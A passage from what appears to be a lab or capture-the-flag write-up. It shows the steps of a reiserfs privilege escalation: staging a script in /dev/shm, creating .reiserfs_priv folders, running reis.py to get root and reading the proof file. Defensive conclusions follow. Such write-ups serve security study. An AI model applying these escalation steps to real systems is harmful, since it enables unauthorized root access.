 Find a good location (not mounted with noexec)…  => /dev/shm

[![image](../../../_resources/456dcf8dc9ea41ef83ec78422cb00b8a.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image40.png)

(I moved the reis.py file to that location)

(important to note that /apachelogs does not show up in the mount list… but I didn’t try to mount it myself… perhaps I should have).

**Step 4** : prepare folders

```
cd /apachelogs
mkdir .reiserfs_priv
mkdir .reiserfs_priv/xattrs
```

**Step 5** : 0wn

Current situation :

```
/apachelogs/data/corelanc0d3r  => compiled payload
/dev/shm/reis.py => python script
```

Launch the exploit :

```
cd /dev/shm
ls
reis.py

python ./reis.py
id
uid=0(r00t) gid=0(r00t) groups=33(www-data)
```

```
cat /root/proof.txt
sDSjnSo22bSe12sadjdjrudfknk4455qndlas4
```

#### Conclusions

- Using redirects and custom reponses, modifying headers etc are good. They will slow down scripts and script kiddies but won’t stop seasoned hackers from discovering the real identity/engines and/or breaking into the system.
- Although it was somewhat hidden, the “ghost” machine runs some vulnerable code, giving an attacker the ability to issue commands on the system and get a shell. Don’t rely on the “need to know” principle. Hackers will find out that you planted files somewhere and if it’s vulnerable, they will use it to hack into your system.
- The web server runs with a low privilege account, but the combination of the vulnerable code, with insecure file/folder permissions (write access + execute access) may allow for further exploitation.
- On top of that, the reiserfs implementation is buggy and can allow an attacker to escalate privileges, essentially allowing him to obtain root permissions.
- Weak firewall rules : allowing a server to access other servers (outbound connections), when that is not really necessary, may provide a hacker the ability to serve/download malicious files.
